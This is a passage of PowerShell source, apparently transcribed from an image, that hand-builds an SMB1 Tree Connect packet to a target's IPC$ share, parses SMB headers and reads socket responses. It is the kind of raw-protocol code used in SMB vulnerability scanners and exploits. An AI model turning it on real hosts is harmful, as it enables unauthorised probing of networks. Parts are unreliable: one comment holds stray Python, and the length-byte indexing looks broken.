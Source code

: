 
    $ipc = "\\"+ $Target + "\IPC$"

     $pkt +=0x04              # Word Count
     $pkt +=0xFF              # AndXCommand: No further commands
     $pkt +=0x00              # Reserved
     $pkt +=0x00,0x00          # AndXOffset
     $pkt +=0x00,0x00          # Flags
     $pkt +=0x01,0x00          # Password Length
     $pkt +=0x1A,0x00          # Byte Count
     $pkt +=0x00              # Password
     $pkt += [system.Text.Encoding]::ASCII.GetBytes($ipc) # \,0xxx.xxx.xxx.xxx\IPC$
     $pkt += 0x00       # null byte after ipc added by kev

     $pkt += 0x3f,0x3f,0x3f,0x3f,0x3f,0x00   # Service


    $len = $pkt.Length - 4
    # netbios[1] =$pkt +=0x00' + struct.pack('>H length)
    $hexlen = [bitconverter]::GetBytes($len)[-2..-4]
    $pkt[1] = $hexlen[0]
    $pkt[2] = $hexlen[1]
    $pkt[3] = $hexlen[2]
    return $pkt

    }



function smb_header($smbheader) {

$parsed_header =@{server_component=$smbheader[0..3];
                  smb_command=$smbheader[4];
                  error_class=$smbheader[5];
                  reserved1=$smbheader[6];
                  error_code=$smbheader[6..7];
                  flags=$smbheader[8];
                  flags2=$smbheader[9..10];
                  process_id_high=$smbheader[11..12];
                  signature=$smbheader[13..21];
                  reserved2=$smbheader[22..23];
                  tree_id=$smbheader[24..25];
                  process_id=$smbheader[26..27];
                  user_id=$smbheader[28..29];
                  multiplex_id=$smbheader[30..31];
                 }
return $parsed_header

}




function smb1_get_response($sock){



    $tcp_response = [Array]::CreateInstance("byte", 1024)
    try{
    $sock.Receive($tcp_response)| out-null
